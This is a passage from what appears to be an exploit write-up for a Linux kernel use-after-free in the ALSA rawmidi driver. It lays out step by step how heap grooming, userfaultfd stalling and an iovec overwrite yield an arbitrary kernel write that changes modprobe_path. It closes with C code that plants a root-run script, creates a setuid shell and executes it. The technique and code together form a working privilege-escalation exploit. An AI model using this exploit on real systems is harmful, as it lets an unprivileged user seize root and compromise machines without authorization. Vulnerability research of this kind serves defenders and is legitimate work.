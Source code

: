 The `readv` is a blocking call that **stays** (does not free) the object in the kernel so that we can corrupt it using our UAF and re-use it later with our arbitrary modified content. If we corrupt the `iov_base` of an `iovec` structure we can write at arbitrary kernel addresses with a `write` syscall since it is uses the unsafe [\_\_copy_from_user](https://elixir.bootlin.com/linux/v4.9.223/source/lib/iov_iter.c#L267) (same as `copy_from_user` but without checks).

![[notes/images/3.png]]

Our idea is:
- Resize the `runtime->buffer` with `SNDRV_RAWMIDI_IOCTL_PARAMS` in order to lands into`kmalloc-256` with a size greater than 192
- `write` into the file descriptor specifycing a demanded-zero paged memory (`MAP_ANON`) so that `copy_from_user` will stop its execution waiting for our user-land page fault handler
- While the kernel thread is waiting, free the buffer using again the re-size ioctl command `SNDRV_RAWMIDI_IOCTL_PARAMS`
- Allocate the `iovec` struct using `readv` that will replace the previously allocated `runtime->buffer`
- Resume the kernel execution releasing the page fault handler. Now the `copy_from_user` will start to write into the `iovec` structure and we will overwrite `iov[1].iov_base` with the `modprobe_path` address.

Now, in order to overwrite the `modprobe_path` value we just have to write our arbitrary content using the `write` syscall into `pipe[0]`. In the released exploit I overwrote the second iov entry (`iov[1]`) using the same technique described before with adjacent pages. However, it's also possible to directly overwrite the first `iov[0].iov_base`.

Nice ! Now we have overwritten `modprobe_path` with `/tmp/x` and .. it's time to pop a shell !

### modprobe_path & uid=0
If you are not familiar with `modprobe_path` I suggest you to check out [Exploiting timerfd_ctx Objects In The Linux Kernel](https://syst3mfailure.io/hotrod) and the [man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html).
To summarize, `modprobe_path` is a global variable with a default value of `/sbin/modprobe` used by `call_usermodehelper_exec` to execute a user-space program in case a program with an unkown header is executed.
Since we have overwritten `modprobe_path` with `/tmp/x`, when a file with an unknown header is executed, our controllable script is executed as root.

These are the exploit functions that prepares and later executes a suid shell:

```C
void prep_exploit(){
    system("echo '#!/bin/sh' > /tmp/x");
    system("echo 'touch /tmp/pwneed' >> /tmp/x");
    system("echo 'chown root: /tmp/suid' >> /tmp/x");
    system("echo 'chmod 777 /tmp/suid' >> /tmp/x");
    system("echo 'chmod u+s /tmp/suid' >> /tmp/x");
    system("echo -e '\xdd\xdd\xdd\xdd\xdd\xdd' > /tmp/nnn");
    system("chmod +x /tmp/x");
    system("chmod +x /tmp/nnn");
}

void get_root_shell(){
    system("/tmp/nnn 2>/dev/null");
    system("/tmp/suid 2>/dev/null");
}

int main(){
	prep_exploit();
	// [..] exploit stuff
	get_root_shell(); // pop a root shell
}

```
